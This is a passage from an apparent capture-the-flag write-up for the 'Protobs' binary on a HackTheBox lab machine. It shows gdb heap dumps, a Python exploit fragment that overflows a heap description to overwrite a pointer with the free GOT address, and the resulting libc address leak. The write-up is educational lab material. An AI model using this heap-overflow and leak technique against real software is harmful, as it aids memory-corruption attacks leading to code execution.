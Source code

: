 

I'll connect with `gdb` and look at the heap:



    gdb-peda$ x/8xg 0x603060
    0x603060:       0x0000000000f2f260      0x0000000000f2f2c0
    0x603070:       0x0000000000000000      0x0000000000000000
    0x603080:       0x0000000000000000      0x0000000000000000
    0x603090:       0x0000000000000000      0x0000000000000000
    gdb-peda$ x/26xg 0x0000000000f2f260
    0xf2f260:       0x746972777265766f      0x0000000000007265  # "overwriter"
    0xf2f270:       0x0000000000000000      0x0000000200000001
    0xf2f280:       0x0000000400000003      0x0000000000000018
    0xf2f290:       0x0000000000f2f2a0      0x0000000000000021  # 0xf2f2a0 --> desc
    0xf2f2a0:       0x776f6c667265766f      0x0000000000007265  # "overflow"
    0xf2f2b0:       0x0000000000000000      0x0000000000000041
    0xf2f2c0:       0x000000006b61656c      0x0000000000000000
    0xf2f2d0:       0x0000000000000000      0x0000000200000001
    0xf2f2e0:       0x0000000400000003      0x0000000000000018
    0xf2f2f0:       0x0000000000f2f300      0x0000000000000021  # 0xf2f300 --> desc
    0xf2f300:       0x766f206562206f74      0x6574746972777265  # "to be overwritten"
    0xf2f310:       0x0000000000e67e6e      0x0000000000020cf1
    0xf2f320:       0x0000000000000000      0x0000000000000000



That will work nicely. I just need to change "overflow" to a long enough
buffer such that it overwrites the value 0xf2f300 at address 0xf2f2f0
with the `free` GOT address from earlier.

Now I'll update my Python:



    new_config('dummy1', 0x18, 'to be deleted')
    new_config('leak', 0x18, 'to be overwritten')
    del_config(0)
    new_config(b'A'*0x50 + p64(0x602f78), 0x18, 'B'*0x16)
    print(print_config(1))
    pdb.set_trace()



The third config will go into slot 0, and the description will overwrite
the pointer to the description in slot 1 with the pointer to `free`.



    root@kali# python3 ./pwn_protobs.py 
    [+] Starting local process './Protobs': pid 17356
    b'  [ Game                ]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx/`\n  [ Contrast            ]: 1094795585\n  [ Gamma               ]: 1094795585\n  [ Resolution X-Axis   ]: 1094795585\n  [ Resolution Y-Axis   ]: 1094795585\n  [ Controller          ]: 1094795585\n  [ Description         ]: \xd0\x91\xd3$\xe0\x7f\n\n'
    --Return--
    > /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/pwn_protobs.py(43)<module>()->None
    -> pdb.set_trace()
    (Pdb) 
